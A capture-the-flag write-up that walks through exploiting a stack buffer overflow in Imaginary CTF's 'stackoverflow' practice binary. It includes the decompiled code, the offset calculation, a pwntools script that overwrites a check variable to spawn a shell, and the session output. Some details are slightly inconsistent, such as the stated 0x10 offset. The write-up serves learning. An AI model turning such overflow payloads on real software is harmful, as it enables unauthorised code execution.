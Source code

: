 ### Binary Exploitation

### Source: Imaginary CTF

### Basic File Check

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/stackoverflow]
└─$ file stackoverflow
stackoverflow: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c7bd1104c0adbdb1357db265116844c7a1304c4e, not stripped
                                                                                                        
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/stackoverflow]
└─$ checksec stackoverflow
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Documents/Pentest/BOF/03-begineer_bof/stackoverflow/stackoverflow'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Cool so we're working with a x64 binary. Which has all protection enabled except `Stack Canary` 

I'll run the binary to know what it does

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/stackoverflow]
└─$ ./stackoverflow
Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we would like you to answer a question. What's your favorite color?
blue
Thanks! Now onto the posts!
ERROR: FEATURE NOT IMPLEMENTED YET
```

It asks for a colour name then exits after it gives the error `FEATURE NOT IMPLEMENTED YET`

Now i'll decompile using ghidra

Here's the decompiled main function

```

undefined8 main(void)

{
  undefined input [40];
  long check;
  
  check = 0x42424242;
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts(
      "Welcome to StackOverflow! Before you start ~~copypasting code~~ asking good questions, we wou ld like you to answer a question. What\'s your favorite color?"
      );
  __isoc99_scanf(&DAT_001009a3,input);
  puts("Thanks! Now onto the posts!");
  if (check == 0x69637466) {
    puts("DEBUG MODE ACTIVATED.");
    system("/bin/sh");
  }
  else {
    puts("ERROR: FEATURE NOT IMPLEMENTED YET");
  }
  return 0;
}
```

So its just a basic code here's what it does

```
1. Saves '4242424242' in a variable called check
2. Prints out the header stuff 
3. Uses scanf to receive our input
4. Does an if statement which compares the value stored in check to 0x69637466
5. If condition is met it grants a sh shell 
6. But if the condition isn't met it prints the error message and exist
```

So this is going to be a classic variable overwrite

I'll look at the stack layout to get the offset of our input to the check variable

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         AL:1           <RETURN>
             undefined8        Stack[-0x10]:8 check                                   XREF[2]:     001007c2(W), 
                                                                                                   00100836(R)  
             undefined1[40]    Stack[-0x38]   input                                   XREF[1]:     00100812(*)  
                             main                                            XREF[4]:     Entry Point(*), 
                                                                                          _start:001006cd(*), 00100a28, 
                                                                                          00100ad0(*)  
```

Cool we see that our input is at offset 0x38 and the check variable is at offset 0x10

The offset between the two is `(0x38 - 0x10 = 0x28)`

With this the exploit script is ready to go

Now here's what the script will do:

```
1. Start the binary process 
2. Overwrite the check variable to 0x69637466 using an offset 0f 0x10 to reach it
3. Give an interactive shell
```

Here's the script below

```
from pwn import *

io = process('./stackoverflow')

payload = ""
payload += b"A"*40
payload += p64(0x69637466)

io.sendlineafter(b'?', payload)
io.interactive()
```

On running it

```
└─$ python2 exploit.py 
[+] Starting local process './stackoverflow': pid 75202
[*] Switching to interactive mode

Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
$ whoami
mark
$ ls -al
total 24
drwxr-xr-x  2 mark mark 4096 Feb  4 00:23 .
drwxr-xr-x 17 mark mark 4096 Feb  4 00:01 ..
-rw-r--r--  1 mark mark  161 Feb  4 00:23 exploit.py
-rwxr-xr-x  1 mark mark 8536 Feb  4 00:01 stackoverflow
$
```

And we're done 


<br> <br>
[Back To Home](../../index.md)

